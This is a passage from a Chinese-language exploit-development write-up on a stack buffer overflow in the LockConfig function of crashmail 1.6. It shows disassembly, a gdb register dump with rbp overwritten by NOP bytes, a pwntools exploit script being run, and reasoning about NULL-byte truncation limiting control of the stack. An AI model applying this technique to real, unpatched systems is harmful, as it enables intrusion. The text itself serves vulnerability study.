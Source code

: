 把断点下在0x4039EE，LockConfig函数ret之前：

```bash
.text:00000000004039DC loc_4039DC:                             ; CODE XREF: LockConfig+D2↑j
.text:00000000004039DC                 mov     rax, [rbp+fp]
.text:00000000004039E0                 mov     rdi, rax        ; os
.text:00000000004039E3                 call    osClose
.text:00000000004039E8                 mov     eax, 1
.text:00000000004039ED
.text:00000000004039ED locret_4039ED:                          ; CODE XREF: LockConfig+A0↑j
.text:00000000004039ED                                         ; LockConfig+F4↑j
.text:00000000004039ED                 leave
.text:00000000004039EE                 retn
.text:00000000004039EE ; } // starts at 4038E6
.text:00000000004039EE LockConfig      endp
```

buf数组位于0x7ffe8bd42aa0 ，寄存器里除了rsp之外还有r13指向栈地址，但是r13指向的位置比rsp指针指向的位置高。由于存在NULL截断，所以就写不到这个位置。

```bash
Breakpoint 1, 0x00000000004039ee in LockConfig (file=0x7ffe8bd44797 '\220' <repeats 200 times>...)     │test@0c3259477029:/test$ 
    at crashmail/crashmail.c:505                                                                       │test@0c3259477029:/test$ 
505     }                                                                                              │test@0c3259477029:/test$ ls                                                  │p_x64.py
(gdb) info reg                                                                                         │test@0c3259477029:/test$ ./exp_x64.py 
rax            0x1                 1                                                                   │[+] Starting local process '/usr/bin/gdbserver': pid 1212
rbx            0x42f950            4389200                                                             │[*] running in new terminal: ['/usr/bin/gdb', '-q', '/test/crashmail-1.6/bin/crashmail', '-x', '/tmp/p
rcx            0x1                 1                                                                   │wnlib-gdbscript-m6dywxad.gdb']
rdx            0x0                 0                                                                   │[*] Paused (press any to continue)
rsi            0x17e372a0          400781984                                                           │
rdi            0x17e37048          400781384                                                           │
rbp            0x9090909090909090  0x9090909090909090                                                  │
rsp            0x7ffe8bd42b78      0x7ffe8bd42b78                                                      │
r8             0x0                 0                                                                   │
r9             0x1                 1                                                                   │
r10            0x400b93            4197267                                                             │
r11            0x202               514                                                                 │
r12            0x402910            4204816                                                             │
r13            0x7ffe8bd42e90      140731244359312                                                     │
r14            0x0                 0                                                                   │
r15            0x0                 0                                                                   │
rip            0x4039ee            0x4039ee <LockConfig+264>                                           │
eflags         0x206               [ PF IF ]                                                           │
```